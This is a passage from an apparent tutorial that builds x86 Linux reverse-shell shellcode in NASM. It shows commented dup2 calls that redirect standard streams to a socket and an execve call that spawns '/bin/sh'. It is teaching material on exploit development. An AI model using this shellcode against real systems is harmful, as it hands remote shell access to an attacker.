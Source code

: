 ```nasm
        ; {C code} --> dup2(sock,0);

	; syscall definition
	mov al, 63		; syscall - dup2
	
	mov ebx, edx		; overwriting the reverse_socket pointer
	xor ecx, ecx		; STDIN - 0 (null)

	int 128			; syscall execution

	; syscall definition
	mov al, 63		; syscall - dup2
	mov cl, 1		; STDOUT - 1
	
	int 128			; syscall execution

	; syscall definition
	mov al, 63		; syscall - dup2
	mov cl, 2		; STDERR - 2

	int 128			; syscall execution
```

### sys_execve() ###
<p style="text-align: justify;">The last syscall we call will be sys_execve. In this case we see the placement of the string "/bin/sh" + string terminator "\x00" in the EBX registry, using a stack.</p>

<p style="text-align: justify;">After doing this, syscall establishes a connection using configured address and port sending a "/bin/sh" shell.</p>

We check the system call identifier:
```sh
$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve 11
```
And also the structure of the expected arguments:
```sh
$ man 2 execve | grep "int execve"
int execve(const char *filename, char *const argv[],
                  char *const envp[]);
```
NASM code:
```nasm
sys_execve:
	; {C code} --> execve("/bin/sh",NULL,NULL);

	; syscall definition
	mov al, 11		; syscall - execve

	; pushing the sys_execve string argument
	xor esi, esi
	push esi		; pushing 0 (null)

	push 0x68732f6e		; pushing "n/sh"
	push 0x69622f2f		; pushing "//bi"

        ; pushing the sys_execve arguments (const char *filename, char *const argv[], char *const envp[])
	mov ebx, esp		; directing the stack pointer to sys_execve() string argument
	xor ecx, ecx		; char *const envp[] = 0 (null)
	xor edx, edx		; char *const argv[] = 0 (null)

	int 128			; syscall execution
```